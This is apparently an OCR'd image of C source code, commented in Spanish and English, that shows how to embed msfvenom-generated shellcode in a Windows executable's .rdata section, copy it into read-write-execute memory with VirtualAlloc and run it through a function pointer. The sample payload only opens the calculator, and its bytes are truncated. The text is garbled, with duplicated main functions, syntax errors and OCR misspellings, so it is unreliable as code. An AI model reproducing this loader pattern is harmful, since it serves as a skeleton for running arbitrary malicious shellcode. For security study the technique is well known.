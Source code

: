 #include <windows.h>
#include <stdio.h>
/*  
    Ejemplo para aprender:
    muestro cómo meter un payload simple (como un shellcode para abrir la calculadora) dentro de la sección .rdata de un ejecutable.
    AVISO:
    Esto es solo para practicar y en un ambiente controlado y offline. No lo uses para hacer cagadas ni en ambientes productivos.
    
    // Este shellcode abre la calculadora de Windows (generado con msfvenom)
    // msfvenom -p windows/x64/exec CMD=calc.exe -f c
    // Si no lo declarás como escribible, queda guardado en la sección .rdata que es de solo lectura.
*/
const unsigned char Rdata_RawData[] = {
0xFC, 0x48, 0x83, 0xE4, 0xF0, /*... truncated for brevity... */ 0x00
};

int main() {
// Imprimimos la dirección en memoria donde está guardado el payload
printf("[i] Address of embedded payload (.rdata): 0x%p\n", Rdata_RawData)

// Pedimos memoria que se pueda leer, escribir y ejecutar para copiar el shellcode ahí
    void exec_mem VirtualAlloc(
    NULL,
    sizeof(Rdata_RawData),
    MEM_COMMIT MEM_RESERVE | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE
);

if (exec_mem = NULL) {

printf("[-] Memory allocation failed!\n");
return -1;
}   
printf("[+] Memory allocated at: 0x%p\n", exec_mem);
// Copia el shellcode desde la sección de solo lectura a la memoria ejecutable

memcpy(exec_mem, Rdata_RawData, sizeof(Rdata_RawData));
printf("[+1 Pavload copied to executable memorv.\n"):
// Example shellcode to launch calculator (generated via msfvenom)
//msfvenom -p windows/x64/exec CMD=calc.exe -f c
// This will be stored in the rdata section if not declared as writable
const unsigned char Rdata_RawData[] = {
0xFC, 0x48, 0x83, 0xE4, 0xF0, truncated for brevity
    };
}
return 0;

int main() {
// Print the memory address where the shellcode resides
printf("[i] Address of embedded payload (.rdata): 0x%p\n", Rdata_RawData);
// Allocate RWX memory to copy and execute the shellcode safely
void exec_mem VirtualAlloc(
NULL,
sizeof(Rdata_RawData),
MEM_COMMIT MEM_RESERVE,
PAGE_EXECUTE_READWRITE
);
if (exec_mem == NULL) {
printf("[-] Memory allocation failed!\n");
return -1;
printf("[+] Memory allocated at: 0x%p\n", exec_mem);
}
// Copy the shellcode from read-only .rdata to executable memory
memcpy(exec_mem, Rdata_RawData, sizeof(Rdata_RawData));
printf("[+] Payload copied to executable memory.\n");
// Wait for user confirmation before executing
printf("[#] Press <Enter> to execute the payload (e.g., launch calc.exe)...\n");
getchar();
// Create function pointer and jump to shellcode
((void()())exec_mem)();
return 0;
}
